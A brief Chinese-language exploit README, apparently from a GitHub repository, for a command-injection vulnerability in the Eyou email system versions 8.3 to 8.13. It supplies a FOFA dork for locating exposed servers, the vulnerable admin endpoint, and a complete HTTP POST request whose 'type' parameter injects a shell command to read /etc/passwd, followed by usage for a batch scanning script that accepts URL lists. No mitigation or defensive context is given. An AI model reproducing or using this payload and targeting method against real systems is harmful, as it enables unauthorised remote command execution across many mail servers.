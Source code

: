 # 影响范围：
亿邮电子邮件系统V8.3-V8.13
# FOFa dork：
body="亿邮电子邮件系统"
# 漏洞复现：
登录页面:  
![image](images/login.png)   
漏洞地址：/webadm/?q=moni_detail.do&action=gragh  
post包如下：  
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0

type='|cat /etc/passwd||'
```
![image](images/post.png)   
脚本使用方法：  
python3 Eyou.py [-u url] [-f  Url.txt]  
如果使用-f参数脚本会将检查结果保存在当前目录下生成result.txt中  
![image](images/poc.png)   





